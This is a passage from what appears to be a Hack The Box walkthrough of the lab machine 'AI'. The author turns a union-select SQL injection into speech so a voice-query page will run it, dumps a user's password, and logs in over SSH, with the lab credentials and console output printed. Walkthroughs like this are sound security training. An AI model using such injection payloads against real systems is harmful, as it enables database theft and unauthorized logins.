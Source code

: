 As is possible to see above, ```intelligence.php``` was discovered, once that page is accessed, is found a guide on how to write some queries to the AI:

{{< image src="/images/htb/ai/2.1-rce-2.png" position="center" style="border-radius: 8px;" >}}

After a LOT of try-error (literally, I was never able to go beyond this if it wasn't for the help of [Interep](https://www.hackthebox.eu/profile/10423) of both queries and different TTS (being I'm not a native english speaker and neither I have a microphone), was used in the end [Text 2 Speech](https://www.text2speech.org/):

{{< image src="/images/htb/ai/t2s.png" position="center" style="border-radius: 8px;" >}}

getting as final SQL Injection the next:

```
User:
Open single quote union select, username from users Comment Database
Password:
Open single quote union select, password from users Comment Database
```

Once it's respective .wav files generate by the TTS mentioned above were uploaded, the following were the results:

{{< image src="/images/htb/ai/command-ok-1.png" position="center" style="border-radius: 8px;" >}}

{{< image src="/images/htb/ai/command-ok-2.png" position="center" style="border-radius: 8px;" >}}


Then, was tried to login via ssh with the credentials:

```
user: alexa
passwd: H,Sq9t6}a<)?q93_
```

Getting a success:

```console
root@kali:~/Documents/HTB/boxes/medium/linux/ai# ssh alexa@10.10.10.163
alexa@10.10.10.163's password: 
Welcome to Ubuntu 18.04.3 LTS (GNU/Linux 5.3.7-050307-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Fri Feb  7 20:27:47 UTC 2020

  System load:  0.14               Processes:           162
  Usage of /:   28.0% of 19.56GB   Users logged in:     1
  Memory usage: 27%                IP address for eth0: 10.10.10.163
  Swap usage:   0%


 * Canonical Livepatch is available for installation.
   - Reduce system reboots and improve kernel security. Activate at:
     https://ubuntu.com/livepatch

63 packages can be updated.
15 updates are security updates.

Failed to connect to https://changelogs.ubuntu.com/meta-release-lts. Check your Internet connection or proxy settings


Last login: Fri Feb  7 20:14:41 2020 from 10.10.14.29
alexa@AI:~$ wc -c user.txt
33 user.txt
```
